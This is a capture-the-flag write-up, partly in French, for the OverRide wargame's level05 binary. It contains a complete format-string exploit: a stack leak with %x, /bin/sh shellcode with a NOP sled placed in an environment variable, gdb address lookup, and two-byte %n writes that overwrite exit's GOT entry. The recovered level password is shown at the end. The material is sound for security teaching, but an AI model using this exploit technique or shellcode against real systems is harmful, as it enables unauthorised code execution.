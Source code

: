 We notice a printf exploit

```
level05@OverRide:~$ ./level05
AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
aaaa 64 f7fcfac0 f7ec3af9 ffffd6df ffffd6de 0 ffffffff ffffd764 f7fdb000 61616161 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078
```

We also notice there is a tolower() applied on every capital letter -> it implies we would not be able to put the shellcode derictly inside the buffer as some bytes will be modified.
It does not seems like there is existing executable code that would help us achieve our exploit.

Which means we will have to use a shellcode using env variables
We prefix it with a nopsled

```
export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
```

Let's now get the shellcode's address

```
gdb ./level05
x/100s *environ
0xffffd866: "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341Qh//shh/bin\211\343\260\v̀"
```

On offset l'adresse de minimum 9 pour tomber sur le nopsled. (16 par precaution)
`0xffffd876` => `4294957174` en decimal

On va rediriger l'execution de la plt d'exit vers cette adresse:

```
0x8048513 <main+207>            call   0x8048370 <exit@plt>
disas 0x8048370
0x8048370 <exit@plt>                    jmp    *0x80497e0
```

We craft the payload:

```
(python -c 'print "\x08\x04\x83\x76"[::-1] + "%4294957c%10$n"' ; cat) | ./level05
```

As the padding is too large , we need to divide it into two 2 bytes write:

0xffff -> 65535
and 0xd876 -> 55414

we also need to remove 8 instead of 4 as there will be 2 adresses for the first one , then the size of what has been written to the second one
As FFFF > D876 we need to write first D876 then FFFF
55414 - 8 = 55406
65535 - 55414 = 10121

```
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55406c%10$n" + "%10121c%11$n"' ; cat) | ./level05
```

```
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
